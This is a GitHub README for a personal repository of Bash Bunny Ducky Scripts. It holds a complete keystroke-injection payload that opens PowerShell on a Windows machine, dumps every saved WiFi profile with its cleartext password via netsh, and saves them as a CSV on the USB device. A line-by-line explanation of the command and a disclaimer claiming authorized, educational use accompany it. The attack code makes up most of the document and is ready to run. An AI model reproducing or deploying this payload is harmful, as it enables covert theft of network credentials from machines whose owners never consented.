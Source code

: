 # Steven's Custom Ducky Script Repository

This repository contains **custom Ducky Scripts** designed for use with **Hak5's Bash Bunny**. 



## ⚠ Disclaimer

```
All projects and demonstrations in this portfolio are for educational and ethical cybersecurity research only. Every
technique and tool was used legally within approved environments, adhering to ethical hacking principles, legal
regulations, and responsible disclosure practices. Unauthorized use of these methods on systems without explicit
permission is illegal and strictly discouraged. Always follow legal guidelines and obtain proper authorization
before conducting security assessments.
```

## Bash Bunny Network Key Dumper to CSV (Windows) 
**Payload.txt handles overall attack logic, device modes, and script execution.**
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

**Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).**
```ducky
# opens the run dialog and waits 500 milliseconds to ensure the run dialog is open
GUI r
DELAY 500

# launches powershell without loading a user profile and waits 500 milliseconds
STRING powershell -NoProfile 
ENTER
DELAY 500

# navigates to the Bash Bunny's USB storage assuming it's labeled BashBunny
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500

# navigates to the loot directory where extracted data will be stored and waits 500 milliseconds
STRING cd loot
ENTER
DELAY 500

# extract WiFi profiles and passwords and saves to a CSV file in loot
STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```
**Explanation of the PowerShell command:**
```
1. `netsh wlan show profiles` – Lists all saved WiFi profiles.
2. `Select-String ":(.+)$"` – Extracts profile names using regex.
3. `netsh wlan show profile name="$name" key=clear` – Retrieves the password for each profile.
4. `Select-String "Key Content\W+\:(.+)$"` – Extracts the WiFi password using regex.
5. `[PSCustomObject]@{ PROFILE_NAME=$name; PASSWORD=$pass }` – Formats the data into objects.
6. `Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"` – Saves the extracted credentials as a CSV file.
7. `exit` – Closes PowerShell.
```



## 🔗 References

- [Hak5 Official Website](https://hak5.org/)
- [Bash Bunny Documentation](https://docs.hak5.org/bash-bunny/)

